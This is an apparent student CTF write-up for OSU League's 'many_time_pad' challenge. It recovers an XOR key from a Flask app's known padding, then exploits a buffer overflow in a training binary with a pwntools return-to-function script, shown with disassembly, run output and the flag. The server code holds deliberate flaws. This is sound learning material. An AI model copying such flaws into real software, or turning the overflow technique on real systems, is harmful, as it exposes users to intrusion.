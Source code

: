 ```yaml
---
title: "OSU League 2020/2021 - many_time_pad Writeup"
date: 2020-12-05
tags:
  - osuleague
  - ctf
  - security
---
```


For this challenge, we are giving a link to a web page.  Going to it, we are greeted with this:  
{{< figure src="/img/1-many.png" >}}


They also give us the source code for the web server:

```python
from app import app
from app import cfg
from flask import render_template,request,redirect,make_response,send_file

#serve index.html
@app.route("/")
def index():
    return render_template("index.html")

#encrypt messages that are POSTed to /encrypt
@app.route("/encrypt", methods=["POST"])
def encrypt():
    #truncate message if longer than 256 bytes, convert to byte string
    plaintext = request.form.get("message")[:256].encode()
    #pad message with \xff bytes
    plaintext += b'\xff' * (256 - len(plaintext))
    #xor byte string with secret key
    ciphertext = bytes([plaintext_byte ^ key_byte for plaintext_byte, key_byte in zip(plaintext, cfg.secret_byte_string)])
    #put the ciphertext in a response header
    resp = make_response(render_template("index.html"))
    resp.headers["ciphertext"] = repr(ciphertext)
    return resp

#send server source code to those who request it
@app.route("/source")
def source():
    return send_file("./views.py")

#secret admin page, the URL is the secret key so it is secure
@app.route("/" + cfg.secret_byte_string.decode())
def win():
    return(render_template("win.html"))
```

Looking though the source code, it looks like our goal is to find `secret_byte_string`, as that will tell us the path to the admin site.  We also see how the ciphertext is generated.  It's an XOR between each byte of the plaintext we provide with the secret key.  So with the properties of XOR, if we know the plaintext and the ciphertext that would be generated, we can find the secret key!

We see here that our plaintext gets padded with `\xff` to get to 256 bytes, so if we just don't input anything into the field box, then we know our plaintext is `\xff\xff\xff ... ` 256 times. So let's try that, and look at the response header we get from sending it.

{{< figure src="/img/2-many.png" >}}

Alright, looks like we have the ciphertext, now to just XOR it with our plaintext. Xoring and coverting to ascii we get out path:  
`if-you-tried-to-dirbuster-this-route-I-will-forward-you-the-OSUSEC-AWS-bill-never-gonna-give-you-up-never-gonna-let-you-down-never-gonna-run-around-and-desert-you-never-gonna-make-you-cry-never-gonna-say-goodbye-never-gonna-tell-a-lie-and-hurt-you-12345678`

We are then given a site with shows us how to set up our enviroment to do a pwn challenge along with a baby pwn to solve.  We are even given some skeleton code that we can use for the exploit.

Downloading the binary and disassembling it through gdb, we can immediatly see a vulnerability.  At `main+53`, we have a call to fgets, which would allow us to perform a buffer overflow attack.

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x000000000040071b <+0>:     push   rbp
   0x000000000040071c <+1>:     mov    rbp,rsp
   0x000000000040071f <+4>:     sub    rsp,0x10
   0x0000000000400723 <+8>:     mov    eax,0x0
   0x0000000000400728 <+13>:    call   0x400692 <check_the_key>
   0x000000000040072d <+18>:    test   eax,eax
   0x000000000040072f <+20>:    jne    0x40075c <main+65>
   0x0000000000400731 <+22>:    lea    rdi,[rip+0x108]        # 0x400840
   0x0000000000400738 <+29>:    call   0x400520 <puts@plt>
   0x000000000040073d <+34>:    mov    rdx,QWORD PTR [rip+0x20090c]        # 0x601050 <stdin@@GLIBC_2.2.5>
   0x0000000000400744 <+41>:    lea    rax,[rbp-0x10]
   0x0000000000400748 <+45>:    mov    esi,0x20
   0x000000000040074d <+50>:    mov    rdi,rax
   0x0000000000400750 <+53>:    call   0x400540 <fgets@plt>
   0x0000000000400755 <+58>:    mov    eax,0x0
   0x000000000040075a <+63>:    jmp    0x40075e <main+67>
   0x000000000040075c <+65>:    nop
   0x000000000040075d <+66>:    nop
   0x000000000040075e <+67>:    leave
   0x000000000040075f <+68>:    ret
End of assembler dump.
```

We can also open up the binary in Ghidra and see that the buffer we need to fill is 16 bytes long. Perfect, what can we do with this though?  Looking at the functions, we see something promising:

```
gdb-peda$ info functions

0x0000000000400647  print_the_flag
```

We also need to pass in our key we got from the web challenge portion to get to this point, so we need to remember to account for that.
So our current plan of attack sounds like:
1. Pass in our key
2. Fill the buffer up with 16 byte
3. Overwrite EBP with 8 bytes
4. Overwrite EIP with the address of `print_the_flag`
5. Win

In python, that looks like:

```python
from pwn import *
buffer_size = 16
addr_of_printflag_function = 0x0000000000400647
secret_key_string = "if-you-tried-to-dirbuster-this-route-I-will-forward-you-the-OSUSEC-AWS-bill-never-gonna-give-you-up-never-gonna-let-you-down-never-gonna-run-around-and-desert-you-never-gonna-make-you-cry-never-gonna-say-goodbye-never-gonna-tell-a-lie-and-hurt-you-12345678"

p = remote("ctf-league.osusec.org", 31309)

print(p.recv())

print("sending the key string: " + secret_key_string)
p.send(secret_key_string)
print("response: " + p.recv().decode())

payload = b'A' * buffer_size

payload += b'B' * 8

payload += p64(addr_of_printflag_function)
print(b"payload: " + payload)
p.send(payload)
```

And running it we get the flag!!!

```
cameron@LAPTOP-PEKGUHAN:/mnt/c/Users/Cameron McCawley/Desktop/mtp$ python2 exploit.py
[+] Opening connection to ctf-league.osusec.org on port 31309: Done
enter the secret key from the web portion of this challenge
sending the key string: if-you-tried-to-dirbuster-this-route-I-will-forward-you-the-OSUSEC-AWS-bill-never-gonna-give-you-up-never-gonna-let-you-down-never-gonna-run-around-and-desert-you-never-gonna-make-you-cry-never-gonna-say-goodbye-never-gonna-tell-a-lie-and-hurt-you-12345678
response:

payload: AAAAAAAAAAAAAAAABBBBBBBBG\x06\x00\x00\x00
[*] Switching to interactive mode
overflow my buffer and return to the print_the_flag function
osu{L0N6_W01f_H^x0r}
```


